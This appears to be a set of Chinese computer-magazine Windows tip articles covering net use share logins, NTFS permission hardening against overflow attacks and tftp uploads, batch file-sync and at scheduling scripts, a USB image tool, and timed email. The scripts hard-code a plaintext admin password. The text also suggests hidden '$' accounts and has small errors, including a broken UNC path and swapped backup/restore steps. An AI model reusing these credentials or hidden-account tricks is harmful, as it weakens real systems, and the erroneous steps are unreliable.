- ★可以在“net use”命令中共享路径参数前加上未使用的盘符，如“net use z: \\192.168.0.1\share "123" /user:"pan"”(不含外侧中文引号)即表示访问这个指定的共享路径，并将该路径映射为本地盘符 Z:。

```
net use \\192.168.0.1\share "123" /user:"pan"
```

### 第一次尝试：失败的启迪

熟悉了“net use”命令的基本使用后，原来使用用户名“test”(隶属于User组，同事将该组对其共享文件夹的访问权限设为了“只读”)登录同事共享的我迫不及待地想将当前共享登录用户改为“pan”(隶属于PowerUser组，该组对共享文件夹的访问权限设为了“完全控制”)。于是我想当然地在命令行下执行了“net use \\192.168.0.1\share "123" /user:"pan"”，在几秒的等待后，却出现了一行英文错误提示，大意是“已经登录了该共享，不允许用别的用户名同时登录”。我顿时觉得空欢喜一场，难道这是Windows本身设计的一个缺陷？带着疑问，我再次对“net use”进行了研究，将每一个参数的作用都学习了一遍，终于发现了另一个重要的参数。



### 第二次尝试：成功的喜悦

刚才所说的那个参数就是/del，大家可以很容易地看出这个参数的功能。没错，参数/del就是用来删除系统中已经创建的共享访问，同时会清除已经被系统“记住”的对于该共享路径的访问用户名及密码。使用方式如下：

```
net use \\192.168.0.1\share /del
```

也就是在“net use”后加上共享路径，接着使用参数/del。在“网上邻居”中列出的都是诸如“share 在 机器名”的共享名，怎么得到符合命令参数要求的共享路径呢？打开“网上邻居”，右击空白处选择“查看→详细信息”，然后在“备注”一栏中就能看到共享的真实路径了。用这条命令将同事的共享连接删除之后，再次运行“第一次尝试”中的“net use”登录命令，轻松成功了！

## 用好Windows权限之剑——严防非法入侵

### 安全前提：分区格式 = NTFS

Windows 2000/XP 拥有强大的用户和组权限管理功能，在保护系统安全方面有着独特的应用。通过为不同用户分配相应权限，可以限制其对系统重要文件或目录的访问，并以此达到保护系统不受病毒和黑客侵犯的功能。尤其对于“兼职”个人服务器的电脑来说，权限设置更为重要，不过要想完全领略权限管理的好处，要求系统分区使用NTFS文件系统，如果你的系统分区还没有使用NTFS文件系统，可以在“开始”菜单“运行”框中输入“cmd”打开命令行窗口，然后输入“convert c: /fs:ntfs”命令进行转换(其中“C:”为需要转换的盘符)。

### 溢出攻击？能溢出不能攻击

溢出攻击是黑客们常用的一种攻击手段，通过溢出入侵往往可以很快得到一定的主机权限，从而实施破坏。我们通过给“cmd.exe”文件设置权限可以有效地防御溢出攻击，让黑客虽然可以“溢出”但却无法实施攻击，具体步骤如下：

- - 第一步：首先需要创建一个User组的受限权限用户。使用管理员账户登录系统，右击“我的电脑”选择“管理”打开“计算机管理”窗口，在窗口左侧的树形栏中依次展开“计算机管理(本地)→系统工具→本地用户和组→用户”。然后在右侧窗格中右击，选择“新用户”，输入用户名“safeuser”，注意“密码”要设置复杂一些(见图1)，单击“确定”按钮即可建立一个隶属于User组的用户。
- 第二步：设置关键程序使用权限。打开C:\Windows\system32(假设系统安装在C盘，如为Windows 2000请将“Windows”改为“Winnt”)，右击文件cmd.exe在右键菜单中选择“属性”，单击“安全”选项卡(见图2)，删除“组或用户名称”列表中的所有用户和组，然后单击“添加”按钮，输入用户名“safeuser”，单击“确定”按钮即可。按照此方法将该目录中的“net.exe”、“net1.exe”改为同样的安全权限设置。为了防止一些老鸟黑客通过TFTP或者FTP方式传输本地溢出程序，我们还应将该目录中的“tftp.exe”、“ftp.exe”两个文件的权限设定为只有safeuser才可以使用。





### 小提示
- ★如果希望这个账户更安全一些，可以在用户名称前面添加一个“$”符号建立一个隐藏账户，这样，即使系统被入侵，攻击者也无法使用“net user safeuser password”命令来修改用户密码。
- ★“cmd.exe”可能是你经常需要用到的命令，但经过上面的设置后，只有在登录safeuser账户后才能运行它，如果想在管理员账户使用这个命令，可以在开始菜单“运行”对话框中输入“runas /user:safeuser cmd”命令，然后根据系统提示输入safeuser账户密码即可运行。

### 上传后门？门都没有

为更大程度保障系统安全，我们还可以将TFTP的传输端口修改为0，打开C:\WINDOWS\system32\drivers\etc目录，用“记事本”打开其下的文件services(无扩展名)，将“tftp”行中的“69/udp”修改为“0/udp”(见图3)即可，这样，入侵者就不能使用TFTP命令来传输黑客程序了。

```
nicname     43/tcp   whois
domain      53/tcp   nameserver
domain      53/udp   nameserver
bootps      67/tcp   #Bootstrap Protocol Server
bootpc      68/tcp   #Bootstrap Protocol Client
tftp        0/udp    #Trivial File Transfer Protocol
gopher      70/tcp   #Gopher
finger      79/tcp   #Finger
```

小提示
如果你确认系统已经转换为NTFS文件系统，但“属性”对话框中却没有“安全”选项卡，可以打开“我的电脑”，选择菜单“工具→文件夹选项”，单击“查看”选项卡，在“高级设置”中取消“使用简单文件共享(推荐)”选项后确定即可。

### 百毒不侵 权限还能这样玩

我们知道，病毒等恶意程序往往会把自己隐藏在Windows系统目录中，其实对Windows目录的权限进行一些限制，就能防止大部分病毒入侵。

- - 第一步：使用最新的杀毒软件对C:\WINDOWS目录进行全面的病毒查杀，确保在设置权限以前该文件夹无毒。
- 第二步：首先在C:\WINDOWS目录右键菜单中选择“属性”，再打开“安全”选项卡，首先删除Administrators和System用户组以外的所有用户组，然后分别设置Administrators和System用户组，在下面的权限列表中去掉“完全控制”、“修改”、“写入”选项前面的勾选(见图4)，单击“确定”按钮。使用同样方法对C:\WINDOWS\system32目录进行权限设置。



以后当有病毒试图向Windows或者系统目录写入病毒程序时，就会因为没有足够的权限而无法写入，从而达到保护系统的目的。当然，这样设置后正常的文件写入操作也将无法执行，如果在安装新软件时需要向该目录写入文件，我们需要恢复其所有权限再进行安装，安装结束后再对权限做出限制。
本文介绍的方法只是冰山一角，NTFS文件系统的强大安全特性是无法以几个实例所概括的。本文希望能抛砖引玉，带给大家防范的思路，更多的应用还期待你的挖掘。如果有新的方法和大家共享，可以投稿至system@cfan.com.cn。
(自由风)

## 单张多稿 看我的

可能你和笔者一样，经常需要打印一些数码相片寄给朋友或者同学，而相片的尺寸也只要和平时我们所见到的7英寸大小差不多就行了。可是这样就会造成打印纸张的浪费，要知道，现在质量比较好的相纸的价格还是挺高的。因此，笔者就想办法在一张A4幅面的打印纸上打印四张甚至更多的相片，这样既保证了相片的清晰度，也不会浪费纸张。不过，笔者没有使用其他的任何辅助软件，而是利用Windows XP自带的“图片和传真查看器”就搞定了！

- - 第一步：进入到需要打印的数码相片所在的文件夹，然后用Windows XP自带的“图片和传真查看器”打开任意一张相片。如果你的相片关联到了其他的图片查看程序，那么可以在图片上单击鼠标右键，在弹出的菜单中依次选择“打开方式→Windows图片和传真查看器”即可。
- 第二步：在打开的图片下方有一栏工具按钮供我们选择。点击其中的打印按钮，便会打开“照片打印向导”，向导会将当前文件夹下的所有图片以缩略图的形式显示出来(见图1)。勾选需要打印的相片(可以同时选择多张)，然后单击“下一步”按钮。
- 第三步：在“打印选项”中选择好要使用的打印机，单击“下一步”按钮即可进入到“布局选择”窗口。缩略图打印中最为关键的一步就在于此了。根据要打印的相片尺寸，在“可用布局”列表中选择相应的缩略图打印方式。如果你想在一张A4幅面的相纸上打印9张相片，就可以选择“钱夹图片”布局，此时窗口右侧便会显示打印的效果(见图2)。
- 第四步：单击“下一步”按钮，将相纸放入到打印机的进纸盒中即可开始打印了！(柳坚)





## 文件移形换位大法

掌柜的最近竟然迷恋起了网络游戏(以下简称网游)，每天一下班总忍不住在游戏里“拼杀”一番。可是经常碰到的一个头痛问题是，网游由于版本更新的需要，每过几天甚至几小时都需要对游戏文件在线更新一次，往往兴冲冲地启动游戏却出现在线更新的界面，然后等到花儿也谢了却仍在更新。正在万般头痛之时，喜欢“严打”员工上班偷懒的掌柜发现小伙计也玩这个游戏，并且是上班的时候玩！
“你是不是经常更新游戏？”掌柜的问。
小伙子显然有些措手不及，差点把心爱的笔记本都摔了：“嗯，我……”
“不用说了，以后替我更新游戏的重任就交给你了，我不希望再看到更新界面，不然，哼哼，旧账新账一起算……”掌柜的阴笑着说。
还好小伙计是批处理高手，我们来看看他是怎么做的。

### 在掌柜的机器上

- - 第一步：点击“开始→设置→控制面板→用户账户”，并在其中新建一个管理员账户updater(用户名可随意更改，但不得与现有用户名冲突，并应与下文中的脚本对应)，将该账户的密码设置为“12345678”(不含引号，实际使用中请更改为强度更高的密码)。
- 第二步：打开“我的电脑”，找到游戏的安装目录，右击该目录选择“共享和安全”。然后在弹出窗口默认打开的“共享”选项卡中选择“共享此文件夹”，将“共享名”设为“game”(不含引号)(见图1)。
- 第三步：点击“权限”按钮，在弹出窗口中点击“添加”，点击“选择用户或组”窗口的“高级”按钮，然后点击“立即查找”，在下方的列表中选中刚才新建的updater，点击“确定”(见图2)。此时在“选择用户或组”窗口的列表中已经显示出了我们添加的账户了，再次点击“确定”。
- 第四步：重新回到“game的权限”窗口，选中updater，在下方的“updater的权限”列表中勾选“完全控制”，最后点击“确定”按钮。



表中勾选“完全控制”（见图3），依次点击“确定”关闭窗口。

在小伙计的机器上，打开“记事本”，输入以下脚本并保存为 gameup.bat（掌柜的IP为192.168.0.2，小伙子的游戏安装目录为d:\game）：

```
@echo off
net use z: \192.168.0.2\game "12345678" /user:"updater"
cd d:\game
for %%i in (*.*) do if not exist "z:\%%i" copy %%i "z:" /y
replace *.* "z:" /u/r
net use z: /del
```

于是，每当自己更新完游戏，小伙子总是习惯性地执行一下这个脚本，掌柜的感到非常满意。

重要说明：
1.  以上脚本中添加管理员权限账户仅为避免因权限问题带来的连接问题，也可使用其他用户组（关于net use命令及连接故障的解决，请参见本期的《连根拔起—共享的二次登录》）。
2.  此脚本仅更新游戏主目录的文件，可根据游戏中的目录结构自行添加需要更新的子目录，如需要追加更新game\images，则在“net use z: /del”语句前添加如下语句：
    ```
    cd d:\game\images
    for %%i in (*.*) do if not exist "z:\images\%%i" copy %%i "z:\images" /y
    replace *.* "z:\images" /u
    ```

本期配料：ren/replace
适宜人群：没有DOS基础的初学者

### 1. ren
在Windows中重命名文件时，我们一般采用右击该文件选择“重命名”或两次单击文件名的方式。而在DOS中，则需要使用ren命令。文件名相当于人的称谓，比如在DOS快餐店中喊“掌柜的”，大家都知道是指我。而ren命令的目的，就是要让大家改口，比如改为“老板”，让大家知道“老板”这个称谓是指我，而“掌柜的”不再指我。同样的，文件名和称谓一样，只在一定范围内有效，比如在DOS快餐店里的“掌柜的”是我，而VBScript快餐店、JavaScript快餐店的“掌柜的”则是其他人。在别的地方找我就得将我的具体位置也描述出来，如“DOS快餐店的‘掌柜的’”，就好像我们在一个目录下打开其他目录中的文件时就必须给出此文件的完整路径。

目标：将D:\a.txt命名为D:\b.txt
```
ren d:\a.txt b.txt
```
命令格式：ren 要重命名的文件路径 新文件名

命令讲解：如果要重命名的文件不在当前目录，则命令参数中的“要重命名的文件路径”就必须是完整路径，如上文中的“d:\a.txt”，在当前目录下则可省略路径而只需给出文件名，如上文中可省略为“a.txt”。另外，新的文件名只要符合文件命名规范，就能自由更改，文件扩展名也能重命名，如“ren d:\a.txt b.bak”。

### 2. replace（在Windows 98中没有此命令）
当我们在“资源管理器”中进行文件复制、粘贴操作时，如果目标目录中存在与要复制的文件同名的文件，就会出现是否将“文件替换为”的提示框。这和我们以前介绍过的copy命令有些共同点，但replace的功能就是“替换”，它还具有子目录替换、版本控制等功能，下面就让我们来体验一下。

目标1：用D:\a.txt替换D:\backup下的同名文件
```
replace d:\a.txt d:\backup
```
命令格式：replace 源文件路径 目标文件所在目录

命令讲解：如果源文件在当前目录中，我们也可以省略掉完整路径而只使用文件名，而第二个参数是同名文件所在目录名，不包含文件名。

当目标目录中并没有源文件时，默认情况下replace命令就不会进行替换，如果需要目标目录也包含这个文件，则必须使用copy命令或replace命令的参数。

目标2：用replace命令将D:\a.txt添加到D:\backup
注意：此处假设D:\backup目录中不包含a.txt，参数/a不能与后面介绍的/s、/u搭配使用。
```
replace d:\a.txt d:\backup /a
```
命令格式：replace 源文件路径 目标文件所在目录 /a

命令讲解：每个命令都有很多参数，我们在记忆时要掌握窍门，比如此处的/a即为“add”（添加）的缩写。此命令参数只有在目标目录不包含源文件同名文件的情况下使用，否则会提示“未添加文件”。

在学习了replace命令的基本使用以后，可能你会迫不及待地尝试一下，但你可能仍会遇到文件存在却无法替换（显示“拒绝访问”）的问题，这是什么原因呢？

目标3：用D:\a.txt替换D:\backup下的同名只读文件
```
replace d:\a.txt d:\backup /r
```
命令格式：replace 源文件路径 目标文件所在目录 /r

命令讲解：和上一个参数一样，此处的/r可理解为“read only”（只读）。顾名思义，使用/r参数就是为了告诉replace命令：即使目标文件是只读的，也照删不误！

小提示：
如果不使用/r参数，我们也可以用attrib命令去除目标文件的只读属性，方法为“attrib -r d:\backup\a.txt”，此命令将在本栏目今后的文章中详细讲解，敬请关注。

是否还记得上期曾提到过的pause命令？它可以使脚本暂停，直至按下任意键才继续。而在replace命令中，我们可以使用一个参数来简化这个操作，仅用一条命令就能实现两条命令的功能。

目标4：等待用户按下任意键后，用D:\a.txt替换D:\backup下的同名文件
```
replace d:\a.txt d:\backup /w
```
命令格式：replace 源文件路径 目标文件所在目录 /w

命令讲解：用replace/?命令查看replace参数时，我们发现/w参数的解释为“等您插入磁盘以后再运行”。可是经过测试后发现，如果未将磁盘插入A：（软驱）时，使用“replace d:\a.txt a:\”仍会提示错误。与其说是等待插入磁盘，倒不如说这是一个等待参数，我们可以将/w理解为“wait”（等待）。在使用了该参数后，replace命令在对文件进行替换操作前将首先暂停操作并提示“按任意键继续”。注意，就如我们刚才所说的那样，如果源文件路径和目标文件目录不正确的话，命令会直接报错，也就是说在暂停之前命令就对路径参数进行了检查。

如果目标目录中有多个子目录，并且每个子目录都有需要替换的文件，我们应该怎么办呢？大家可能会想到使用cd命令频繁切换目录，然后配合replace命令进行操作，但我们有更好的办法。

目标5：用D:\a.txt替换D:\backup及其子目录下所有的同名文件
```
replace d:\a.txt d:\backup /s
```
命令格式：replace 源文件路径 目标文件所在目录 /s

命令讲解：默认情况下，如果D：\backup的子目录中含有与源文件同名的文件（如：d：\backup\1\a.txt，d：\backup\2\a.txt），replace命令将不对它们进行替换，参数/s可以理解为“subfolder”（子目录）。使用了/s参数后，replace命令就在目标目录中进行搜索，对该目录下所有的子目录进行遍历，查找所有要替换的文件。

在进行遍历替换等多文件操作时，我们最担心的就是误操作所带来的数据丢失，如何能让替换操作开始前提示确认一下呢？

目标6：在目标5的基础上，要求确认操作
```
replace d:\a.txt d:\backup /s /p
```
命令格式：replace 源文件路径 目标文件所在目录 /p

命令讲解：如同以前介绍过的copy命令一样，replace的操作确认参数也是/p，建议在使用/s参数的时候搭配使用。

我们进行文件替换时，很多情况是为了将修改过的新版本文件替换旧版本文件。但如果文件较多（如本文开始处介绍的游戏文件更新）时，就很难把改动过的文件和未改动的文件区分开来，无奈之下只好使用全部替换。在文件数据量大的时候，这种操作无疑是对系统资源和时间的浪费，这种缺点在网络传输时尤为明显（本文开头的游戏更新就是采用net use命令将网络主机上的共享目录映射为本地盘符z：，然后再进行数据传输，也属于网络传输）。

目标7：用D：\a.txt替换D：\backup目录下的同名文件，如果目标文件版本较新则不替换
```
replace d:\a.txt d:\backup /u
```
命令格式：replace 源文件路径 目标文件所在目录 /u

命令讲解：参数/u可以理解为“update”（更新/升级），既然是更新当然不能用旧文件替换新文件啦。所以/u参数就是告诉replace命令，在进行替换操作之前，先对源文件和目标文件的修改时间进行比较，如果源文件比目标文件版本新（理想状况）则进行替换，否则不进行替换。使用这个参数也可以在一定程度上防止我们误将文件覆盖为老版本，现在可能会有朋友提出疑问：为什么文章开始处的游戏文件更新脚本中没有全部使用replace/u，而用copy命令进行了辅助？这是由于游戏更新过程中，不但有文件的版本更新，更有可能会有一些新的文件产生（即源文件目录中有，但目标文件目录中没有的文件），简单地使用/u参数则有可能会遗漏掉新生成的那部分文件。

### 本期大餐：改造游戏更新脚本，使其满足文件同步需要
适宜人群：有一定DOS基础的老鸟
目标：支持自定义源、目标目录、文件类型的文件同步脚本

```
@echo off
cd %1
for %%i in (*.%3) do if not exist "%2%%i" copy %%i "%2" /y
replace *.%3 "%2" /u
```

使用方法：在“记事本”中输入以上脚本保存为filesyn.bat，用cd命令将当前目录转到该脚本的保存目录中，使用格式为“filesyn.bat 源目录 目标目录 需要同步的文件类型”（不含引号）。如果源或目标目录不是当前目录，请在参数中使用完整路径。

脚本讲解：以前我们曾经给大家讲过，%1、%2等变量表示批处理在运行时由用户指定的参数，如执行“filesyn.bat d：\ e：\ txt”，则其中的第一个参数“d：\”即赋值给了%1，而“e：\”赋值给了%2，第3个参数“txt”赋值给了%3。首先“cd %1”是指将当前目录转到第1个参数（即源目录参数）指向的目录。第二句使用了for循环语句对当前目录进行了遍历，将其中文件扩展名符合参数%3的文件都找出来，然后用exist语句检查目标目录（%2）中是否也有这个文件，如果（if）没有（not exist）此文件，就用copy命令将它从源目录中复制到目标目录中。当遍历结束，批处理开始执行下一条语句，用replace语句配合参数/u来对目标目录的文件进行更新，如果目标目录中包含了比源文件版本更新或者相同的文件（包括上一条循环语句中复制到目标目录中的文件），则不更新。

（掌柜的）

## 不甘寂寞 闪存盘也玩“Ghost”
你的闪存盘用来干嘛？有些人会说用来存放文件，有些人会说制作应急系统启动盘，不过更多数人用闪存盘来互相拷贝文件，以达到移动存储的目的。这样做至少有两个弊端：
1.  当文件较多时，要将闪存盘中的文件发给网友非常不方便。
2.  无法进行启动型闪存盘的备份。

如何解决这两个问题，或许你有自己的办法，比如先用WinRAR把这些文件打包再发送给网友。不过笔者选择的是微软发布的一款名为USB Flash Drive Manager（USB闪存盘管理器）的小工具。

### USB Flash Drive Manager小档案
| 项目 | 内容 |
| :--- | :--- |
| 软件版本 | 1.0.0 |
| 软件大小 | 650KB |
| 软件性质 | 免费软件 |
| 运行环境 | Windows XP |
| 下载地址 | http://www.newhua.com/cfan/200510/ufdm.rar |
| 软件备注 | 此软件需要Net Framework 1.1支持，如果没有则在安装时会提示下载。 |

### 闪存盘专用 Ghost——USB Flash Drive Manager
与Ghost将某个分区备份为镜像文件的功能一样，USB Flash Drive Manager（以下简称“UFDM”）也可以将闪存盘备份为一个镜像文件，并在需要时进行恢复。

#### 1. 备份闪存盘
安装运行UFDM后，首先切换到“Settings”（设置）标签，在“Change your USB Flash Drive”（选择一个备份镜像文件以便恢复闪存盘）栏选中需要恢复的镜像，最后单击“Restore”（恢复）即可。

#### 2. 恢复闪存盘
勾选“Restore files from my computer to a Flash Drive”（从电脑中恢复闪存盘的文件）后，在“Select a backup image to restore to the”（选择要备份的闪存盘）中选择你要备份的闪存盘。最后单击“Backup”（备份）按钮即可开始备份（见图1）。

这一功能除了可以用于与网友快速分享文件，大家还可以用它来快速拷贝不同用途的文件。比如我们将某些最喜欢的MP3做一个镜像A，将QQ、Foxmail等常用网络程序做一个镜像B等等，当我们要外出上网时，只需恢复到镜像B即可，而需要带MP3走的时候则恢复到镜像A。这样操作起来比平时方便不少。

### 无线网络设置随我走
对于本本用户来讲，切换网络环境总是带来需要更改网卡设置的麻烦（比如IP、DNS等）。UFDM内置了一个非常实用的功能，它能备份和恢复你的无线网络设置，方法非常简单：切换到“Settings”标签（见图2），单击“Start Wizard”（启动向导）按钮并根据提示完成向导即可，恢复网卡设置时只需如法炮制即可。

### Outlook Express：忘不了你的好
Outlook Express（以下简称OE）应该算得上是Windows平台下使用者最多的邮件客户端了。虽然功能不及Outlook强大，不过一旦配备了WSH脚本这个强大的“武器”，就能实现很多高级的功能，比如这次的任务。

1.  第一步：启动OE，单击“创建邮件”按钮，打开“新邮件”窗口。键入“收件人”地址，同时发送给多个朋友，可一一输入，用英文逗号“，”或分号“；”隔开。接着输入“主题”，如“祝你节日快乐！”，然后充分发挥自己的想象力和创造力，制作一封充满温馨浪漫的电子贺卡邮件，贺卡（图片）可作为信纸，也可作为附件（见图1）。
2.  第二步：单击“文件→另存为”，选择一个文件夹，本文假设保存于“H：\GalaCard”文件夹，键入文件名，本文假设为“GalaCard”，然后单击“保存”。关闭“新邮件”及“Outlook Express”窗口。
3.  第三步：打开“记事本”，输入下列代码，然后保存为“H：\GalaCard\GalaCard.vbs” VBScript脚本文件（保存路径可随意更改，但应与下文添加计划任务的路径相对应）：
    ```
    Option Explicit
    Dim WshShell
    Set WshShell = WScript.CreateObject("WScript.Shell")
    WshShell.Run "C:\Progra~1\Outlook\msimn.exe /eml:H:\GalaCard\GalaCard.eml"
    WScript.Sleep 1000
    WshShell.AppActivate "GalaCard"
    WScript.Sleep 1000
    WshShell.SendKeys "%s"
    ```
    这段脚本做了些什么？（请关注即将推出的VBScript连载）
    第1行：强制变量声明，也就是说如果脚本中使用的变量必须先用Dim语句声明，否则报错。
    第2行：声明一个WSH（Microsoft Windows Based Script Host）变量，变量就好比一个杯子，将水（变量值）倒进去就能喝（使用）了。
    第3行：这就是刚才所说的“水”，把一个对象引用赋值给WSH变量，“WScript.CreateObject()”就好像一个饮水机，而引号内的“WScript.Shell”就是饮水机上的热水按钮，这句语句就是指按下饮水机上的热水按钮，将流出的热水（指定要引用的对象）灌进杯子（变量）里。
    第4行：启动OE目录中的msimn.exe程序，并用参数方式加载GalaCard.eml电子邮件文件（注意：要根据操作系统所在分区替换脚本中的目录参数、贺卡电子邮件保存的位置和文件名替换为自己的文件夹名和文件名）。
    第5行：延时1000毫秒（1秒），即脚本停止1秒后继续运行。
    第6行：激活“GalaCard”窗口。这里的“GalaCard”即窗口标题栏显示的名称，一定要与邮件文件名严格对应。
    第7行：再次延时1000毫秒。
    第8行：发送“Alt+S”组合键（相当于单击“发送”按钮）。

在该脚本使用中该注意些什么
1.  如果EML文件扩展名关联的程序是OE，脚本第4行可改为更简洁的“WshShell.Run "H：\GalaCard\GalaCard.eml"”。原脚本中加入OE程序的路径是为了兼容EML文件扩展名关联其他电子邮件客户端的情况。要查看EML文件扩展名关联的程序，可以在“我的电脑”中选择菜单“工具→文件夹选项”，在“文件类型”选项卡的“已注册的文件类型”列表中查找并选中EML文件扩展名，点击“高级”按钮，在弹出窗口中单击“编辑”按钮（见图2）。
2.  某些反病毒程序（如Norton Antivirus）会禁止VBS脚本运行，必须进行授权才能正常运行。授权的方法很简单（此处以Norton Antivirus为例），将GalaCard.eml电子邮件文件临时移动到另一个文件夹或重命名，然后打开GalaCard.vbs所在文件夹，当出现“检测到恶意脚本”对话框时，选择“授权此脚本”，点击“确定”按钮（见图3）。脚本授权后不能再修改内容，否则需要重新授权。脚本授权后将GalaCard.eml电子邮件文件恢复原状。

现在你安心等候吧，到时OE就会向远方的朋友们送去温馨而浪漫的祝福。

### Outlook 2003：不用脚本照样搞定
第一步：启动 Microsoft Office Outlook 2003，单击“新建→邮件”，打开“未命名 - 邮件”窗口。在编辑窗口插入贺卡图片（见图5）。制作完毕，单击“文件→另存为”，文件类型设置为“Word 文档”或者“单个文件网页”，本例将文件保存于 H：\GalaCard\GalaCard，然后单击“保存”。关闭“未命名的邮件”窗口。

第二步：单击“新建→任务”，打开“未命名的邮件”窗口。单击“分配任务”按钮，在“收件人”文本框中输入一个或多个收件人电子邮件地址，在“主题”输入框中输入类似“祝你节日快乐！”的邮件标题，最后设置好“开始日期”和“截止日期”。

第三步：单击“插入→文件”，选择制作好的 GalaCard 文件及其他附件（见图6），然后单击“文件→保存”。关闭“Microsoft Office Outlook”窗口。

要想定时自动发送电子邮件并不难，本文示例仅仅针对 Outlook Express 和 Office Outlook 这两个电子邮件程序，只是抛砖引玉，希望你能触类旁通。还有一些小软件，像 Windows XPlan v2.2 也有定时自动发送电子邮件的功能，但经笔者测试感到不是很理想，所以在此不作介绍。感兴趣的朋友不妨自己试用。

（张宗闻）

## 字符的教训
经过各大IT媒体对“企业管理信息化”概念的疯狂炒作，掌柜的也着实地“熏陶”了一把，一时兴起购入一台小型服务器放在店堂中，所有的菜谱、账目记录及反馈意见等都放在服务器上。账目无纸化操作固然好，可对病毒感染技术颇有经验（其实就是经常中病毒）的掌柜深知数据备份的重要性，于是每天00：00打烊后，备份服务器上的数据又成了掌柜的“必修课”。

几天后......掌柜的终于无法忍受每天的备份了，于是他又把这活交给了小伙计，并嘱咐必须在每天的00：00进行备份。小伙子哪里肯在下班后再多留哪怕一分钟，于是，他登录服务器后键入了一条命令：

```
at 00:00 cmd /c copy C:\Documents\*.* C:\MyDocs
```

说明：其中“C：\Documents\*.*”为要备份的源目录，而“C：\MyDocs”则为备份的目标目录，可根据实际备份需要进行修改。由于“copy”命令为内部命令，即由 cmd 解释执行而非单独的应用程序，所以在指定 copy 任务时要先使用“cmd /c”打开命令提示符，参数 /c 表示执行完命令后中断（关闭）。

本期配料：attrib/at
适宜人群：没有DOS基础的初学者

### 1. attrib
文件属性在 Windows 时代渐渐被人们遗忘。“存档”、“系统”、“隐藏”、“只读”，你是否知道它们的含义？在“我的电脑”中任意右击一个文件，选择“属性”后可以看到“只读”和“隐藏”（见图1）。

存档：有些程序根据这个属性决定是否备份该文件，此属性在 Windows XP 中已经不提供图形界面下的修改了。
系统：操作系统相关的文件，对操作系统不熟悉的用户应尽量避免修改具有系统属性的文件。
只读：文件只允许读取，不允许写入。

2. at

很多朋友都使用过“计划任务”功能，在命令行方式下，应该如何编写计划任务呢？请出今天要介绍的第二个命令：at。

目标1：在今天的16:30运行calc.exe（Windows自带的“计算器”）
at 16:30 calc.exe
命令格式：at 时间 要在指定时间运行的程序名 / 批处理文件名

命令讲解：at命令最简单的应用便是其后直接给出计划的时间及该时间要运行的程序名，其中要运行的程序如果不在系统目录或者系统环境变量所指向的目录中，则要给出完整路径。在添加了新任务后，可以通过运行“at”命令查看已经添加的任务。

你可能会注意到用“at”命令所列出的计划任务列表中有一个ID列，其中以数字顺序为已经添加至列表中的任务分别标注了一个唯一的任务ID，这个ID有什么用呢？

目标2：删除ID为2的计划任务
at 2 /delete
命令格式：at 要删除任务的ID /delete
命令讲解：要删除某个任务时，可以先使用“at”来查看当前已经添加的任务列表，然后根据任务列表中该任务的ID配合/delete参数加以删除即可。经测试，在Windows XP中/delete参数可简写为/del。如果你希望将所有的计划任务一次删除干净，可以使用如下命令：
at /delete

不加任务ID而单独使用/delete，at命令就会删除计划任务列表中的所有任务。有很多时候我们并不希望在进行任务删除操作时需要确认，可是at命令默认在进行任务删除操作时都会提示键入Y/N后方可继续，尤其是编写批处理时这样会很不方便。和以前介绍的很多命令一样，at命令也有自己的无确认参数。

目标3：删除ID为2的计划任务，无需确认
at 2 /delete /yes
命令格式：at [要删除任务的ID] /delete /yes
命令讲解：在使用/delete参数的同时配合/yes参数，at命令在进行计划任务删除操作时就不再需要确认。“命令格式”中将“要删除任务的ID”两侧加上“[]”，是指此时ID参数可有可无，如“at /delete /yes”就是无确认删除所有计划任务。

如果刚才在“目标1”时做了试验，你可能会惊奇地发现在指定时间并没有运行“计算器”。是真的没有运行吗？打开“任务管理器”，“calc.exe”却赫然显现在眼前。这就是at命令与“控制面板”中的“任务计划”的区别，图形界面的“任务计划”所计划的任务都是前台方式运行的，而at命令所计划的任务默认状态都是后台方式（看不见运行界面）运行的。如何让at命令计划的任务在前台运行（显示出运行界面）呢？

目标4：在今天的16:30以前台方式运行calc.exe
at 16:30 /interactive calc.exe
命令格式：at 时间 /interactive 要在指定时间运行的程序名 / 批处理文件名

命令讲解：参数/interactive代表的是“交互”的意思，该参数就是允许作业（计划好的任务）在运行时，与当时登录的用户桌面进行交互，简而言之就是能看见运行界面。

在图形界面中还能够在每月、每星期的指定日期运行任务，用at命令该怎么做呢？
目标5：在每月16日的16:30运行c:\run.bat
at 16:30 /every:16 c:\run.bat
命令格式：at 时间 /every:日期 要在指定时间运行的程序名 / 批处理文件名

命令讲解：参数/every:后指定的“日期”可以是“16”（每月16日）等数字形式的，也可以是“星期四”（每周四）等文字形式的。如果是指定星期几，在Windows XP中可以将“星期四”省略为“四”。如果本月（星期）不想执行，而希望在下次指定日期到来时（如下个月16日）运行任务，则可将“every”改为“next”，命令如下：
at 16:30 /next:16 c:\run.bat

如果“every:”或“next:”后没有指定日期，如“at 16:30 /every: c:\run.bat”，at命令就会默认将本日作为计划任务执行的日期，如在21日执行了该命令，则计划在每月21日执行指定程序。at命令还有一个“\computername”远程计算机参数，可以在远程计算机上进行计划任务操作，但需要先以对方机器的管理员账号登录才行，在此处不做介绍。

## at命令与“任务计划”的详细区别

在命令行方式下使用的at命令主要用于计算机管理用途的计划任务操作，而“控制面板”中的“任务计划”则主要用于普通用户使用。主要的区别有以下几点，在使用时务必注意：

- 1. at命令指定的任务默认在后台运行，而“任务计划”则在前台。
- 2. 用“at”只能列出由at命令添加的计划任务，而在“任务计划”中则都可以查看自身及at所添加的计划任务，在图形界面的“任务计划”中对at命令添加的计划任务进行编辑后，在命令行方式下就不能以at命令进行查看和操作了。
- 3. 在系统服务中的“task scheduler”服务是at命令和“任务计划”使用的基础，如将该服务停用并设置为手动，则“任务计划”在运行时会自动将该服务启动，而at命令则会运行失败。如将该服务禁用，则两者都无法正常使用。

## 本期大餐：以at命令完成各种任务

- ★在指定时间将某个目录下指定类型的文件设置为隐藏文件
```
@echo off
at %1 cmd /c attrib +h %2\*.%3 /s
```
将上面的代码保存为timeab.bat，该脚本的使用方法为“timeab.bat 时间 要处理的目录 文件扩展名”，如要在13:00将D:\games目录下的所有EXE文件设为隐藏，可以使用“timeab.bat 13:00 d:\games exe”。

- ★在指定时间关机
```
at 时间 shutdown.exe -s -t 0 -f
```
其中“-s”参数是确定为关机操作，而“-t 0”则代表0秒后关机，“-f”表示强制关机，可以解决部分因程序尚未关闭而导致无法关闭的情况。

（掌柜的）

# 谁说这里不能启动

